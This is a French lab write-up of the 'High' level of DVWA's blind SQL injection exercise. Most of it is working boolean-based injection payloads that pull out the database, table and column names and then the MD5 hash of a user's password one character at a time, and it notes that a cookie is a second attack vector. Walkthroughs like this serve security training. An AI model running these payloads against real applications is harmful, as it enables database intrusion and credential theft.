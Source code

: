 # Niveau "High"

Un changement est effectué au niveau de l’interface pour ce niveau « High ». Une pop-up est disponible pour insérer l’objet de notre recherche et le résultat s’affiche sur la fenêtre principale :

![](../../../../.gitbook/assets/ddfc80eb30046f1b91071886f7f82007.png)

Il nous faut donc maintenant découvrir si le champ est vulnérable à une injection de type SQL. Bien sur, il s’agira ici d'une injection à l’aveugle car l’application ne peut retourner que vrai/faux. De plus, l'injection sera de type String comme pour le niveau "Low" :

![](../../../../.gitbook/assets/731669385a1dff534be839076604ce71.png)

![](../../../../.gitbook/assets/30d4692cec561529a15965976df413a4.png)

On commence donc par récupérer le nom de la base de données :

![](../../../../.gitbook/assets/bd4c85ececd02d004ae427df857b622d%20%281%29.png)

Soit \(le premier apostrophe est présent juste pour la coloration syntaxique\) :

```sql
'1' AND ORD(MID(DATABASE(),1,1)) = 100 --  // d
'1' AND ORD(MID(DATABASE(),2,1)) = 118 --  // v
'1' AND ORD(MID(DATABASE(),3,1)) = 119 --  // w
'1' AND ORD(MID(DATABASE(),4,1)) = 97 --   // a
```

Puis les noms des tables existantes :

```sql
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),1,1)) = 103 --  // g 
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),2,1)) = 117 --  // u
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),4,1)) = 115 --  // s
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),5,1)) = 116 --  // t
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),6,1)) = 98 --   // b
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),7,1)) = 111 --  // o
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),8,1)) = 111 --  // o
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),9,1)) = 107 --  // k
```

```sql
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),1,1)) = 117 --  // u 
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),2,1)) = 115 --  // s
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),4,1)) = 114 --  // r
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),5,1)) = 115 --  // s
```

Ensuite les noms des colonnes : `user` et `password` de la table `users` :

```sql
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),1,1)) = 117 --  // u 
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),2,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),4,1)) = 114 --  // r
```

```sql
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),1,1)) = 112 --  // p 
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),2,1)) = 97 --   // a
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),3,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),4,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),5,1)) = 119 --  // w
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),6,1)) = 111 --  // o
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),7,1)) = 114 --  // r
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),8,1)) = 100 --  // d
```

Puis finalement l'empreinte MD5 du mot de passe de Pablo :

```sql
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),1,1)) = 48 --   // 0 
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),2,1)) = 100 --  // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),3,1)) = 49 --   // 1
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),4,1)) = 48 --   // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),5,1)) = 55 --   // 7
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),6,1)) = 100 --  // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),7,1)) = 48 --   // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),8,1)) = 57 --   // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),9,1)) = 102 --  // f
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),10,1)) = 53 --  // 5
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),11,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),12,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),13,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),14,1)) = 52 --  // 4
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),15,1)) = 48 --  // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),16,1)) = 99 --  // c
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),17,1)) = 97 --  // a
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),18,1)) = 100 -- // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),19,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),20,1)) = 51 --  // 3
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),21,1)) = 100 -- // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),22,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),23,1)) = 53 --  // 5
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),24,1)) = 99 --  // c
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),25,1)) = 55 --  // 7
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),26,1)) = 49 --  // 1
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),27,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),28,1)) = 57 --  // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),29,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),30,1)) = 57 --  // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),31,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),32,1)) = 55 --  // 7
```

Soit :

![](../../../../.gitbook/assets/6d75b9397dbe0c57747a75e7b2a5485c.png)

{% hint style="info" %}
Dans ce niveau "High", un cookie est créé pour chacune des requêtes effectuées avec comme valeur l'entrée renseignée par l'utilisateur. Il est donc également possible d'attaquer l'application par ce vecteur.
{% endhint %}

